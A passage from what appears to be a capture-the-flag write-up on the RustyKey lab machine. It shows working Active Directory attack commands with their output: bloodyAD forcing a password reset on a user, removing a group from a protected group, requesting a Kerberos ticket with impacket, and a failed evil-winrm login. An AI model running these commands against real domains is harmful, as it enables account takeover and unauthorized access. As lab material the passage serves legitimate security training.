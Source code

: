 And `HELPDESK` can ForceChangePAssword on `ee.reed`:

![](https://github.com/user-attachments/assets/22612c40-bece-4446-9b45-f6e0a9fd0ab2)

Reset password for `ee.reed`:

```console
root@kali:~# bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password ee.reed Pass1234
[+] Password changed successfully!
```

Remove `SUPPORT` group from `PROTECTED OBJECTS` group:

```console
root@kali:~# bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' SUPPORT
[-] SUPPORT removed from PROTECTED OBJECTS
```

Get TGT for `ee.reed`:

```console
root@kali:~# impacket-getTGT rustykey.htb/ee.reed:Pass1234
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in ee.reed.ccache

root@kali:~# export KRB5CCNAME=ee.reed.ccache
```

Connecting with `evil-winrm` doesn't work:

```console
root@kali:~# evil-winrm -i dc.rustykey.htb -r rustykey.htb

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Invalid token was supplied
Success


Error: Exiting with code 1
malloc_consolidate(): unaligned fastbin chunk detected
Aborted
```

#### 4.1.2. RunasCs to switch user to `ee.reed`
